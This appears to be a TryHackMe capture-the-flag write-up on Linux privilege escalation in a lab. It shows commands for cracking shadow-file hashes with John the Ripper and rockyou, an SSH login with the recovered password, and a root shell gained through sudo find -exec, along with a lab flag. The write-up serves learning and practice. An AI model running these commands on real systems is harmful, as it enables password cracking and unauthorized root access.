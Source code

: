unshadow /root/Desktop/Capstone/passwd.txt /root/Desktop/Capstone/shadow.txt > /root/Desktop/Capstone/passwords.txt

* Used John to brute force missy user password.

john --wordlist=/usr/share/wordlists/rockyou.txt /root/Desktop/Capstone/passwords.txt

* Recovered "Password1" for missy user.
* Used SSH to connect to target as missy user.

ssh missy@10.10.91.89

sudo -l : User missy may run the following commands on ip-10-10-91-89: (ALL) NOPASSWD: /usr/bin/find

history

1 ls

2 cd missy/

3 ls

4 cd Do

5 cd Documents

6 ls

7 cat flag1.txt

8 su root

9 quit

10 sudo -l

11 find . -exec /bin/sh \\; -quit

12 find -exec /bin/sh \\; -quit

13 sudo find /home -exec /bin/bash \\;

14 ls

15 cd leonard/

16 cd rootflag/

17 su root

* Recovered flag1.

cat ./Documents/flag1.txt\`

THM-42828719920544

* history output of missy user suggests exploitation of find sudo delegation.
* [GTFObins](https://gtfobins.github.io/gtfobins/find/) confirms exploit.

### **Sudo** <a href="#ysu6him86402" id="ysu6him86402"></a>

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access. sudo find . -exec /bin/sh ; -quit
